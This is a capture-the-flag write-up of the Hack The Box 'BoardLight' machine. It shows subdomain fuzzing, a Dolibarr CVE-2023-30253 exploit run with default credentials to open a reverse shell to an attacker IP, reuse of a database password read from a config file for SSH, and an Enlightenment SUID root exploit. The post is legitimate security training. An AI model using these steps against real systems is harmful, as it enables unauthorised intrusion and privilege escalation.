 ```yaml
---
draft: false
title: "Hack the Box #4 - BoardLight w/o Metasploit"
date: 2024-08-08
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
  - Linux
cover:
  image: hack_the_box_4_boardlight.png
  alt: hack_the_box_4_boardlight.png
---
```

This evening I felt like cutting my teeth a little bit more. So lets spin up this box and give it a poke.

---
## Enumeration 

Kicking off this baby with an nmap
![https://i.imgur.com/EOD1dhH.png](https://i.imgur.com/EOD1dhH.png#center)

In doing so we find port 22 and 80 are the only ones open. _I did a full port scan after to the avail of no extra dice_

Browsing the website we don't find much. All links are get requests to the server so nothing there. We do get the website URL however _**Board.htb**_ that we can add to our hosts file.

So lets see what they aren't showing us with a little bit of directory brute forcing with gobuster…

![https://i.imgur.com/TyAgDp1.png](https://i.imgur.com/TyAgDp1.png#center)

Nothing of to much interest. How about subdomains? FUFF!!!! Weirdly when I started out, FUFF would give me all or nothing.

```bash
# All the errors
ffuf -w /usr/.....top100000.txt -u <http://FUZZ.permx.htb> -mc 200 -o ffuf.scan

# Or All the 200s 
ffuf -w /usr/.....top100000.txt -u http://IP_ADDRESS -H "Host: FUZZ.DOMAIN_URL" -mc 200 -o ffuf.scan
```

This had me stumped for longer then I would care to admit… until I discovered a glorious FUFF feature that I’m kicking myself for not knowing `-ac` Auto calibration. Oh where have you been all my life! Once we apply that flag a subdomain pops out in a matter of seconds `crm.board.htb`

![https://i.imgur.com/qE876A5.png](https://i.imgur.com/qE876A5.png#center)

Now we are cooking, with a sus login portal. Looking into the known exploits for this software, we find this git repo [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) but this requires authentication… Default creds for this tool are **admin/admin** but that wont work right… right?!

---
### Exploitation 

Well the creds work, though the permissions seem to be removed, but no matter.
```bash
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

And with that we have a cheeky reverse shell. Looking at the home file we find the user ***larissa***. But lets keep digging in what this dolibarr is… after some googling we find this little nugget of info about the [Configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) and can be found at **conf/conf.php**. Whacking this badboy with a grep for db
```bash
<crm.board.htb/htdocs/conf$ cat conf.php | grep "db"  
...
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```
We got a password… Would this work against the user?

```bash
└─$ ssh larissa@10.10.11.11    
larissa@boardlight:~$ cat user.txt
============ USER_FLAG ============
```

oh baby!

---
### Privilege Escalation

Now to start the enumeration of the box. Lets push **linpeas** onto this badboy and run that. In do so Linpeas finds some interesting files with permissions

```bash
...
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                   
                      ╚════════════════════════════════════╝                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                            
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                
...
```

and one cursory google search away and we find this cheeky [PrivEsc](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh), pushing it onto the box

```bash
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can\'t find in /etc/fstab.
# whoami
root
# cat /root/root.txt
============ ROOT_FLAG ============
```

With that we are done with both flags in the bag. Its time to treat myself with going outside and touching grass... Just one blade
![Grass.png](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExdHZiaHY2ZjcwbXEycXp1dnp5cXV5aG5peWtnMWRtODhkaTd0dWQ0NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jVk5ebwWGahBS/giphy.gif#center)

Oh and the [rubber stamp](https://www.hackthebox.com/achievement/machine/1695260/603) from hack the box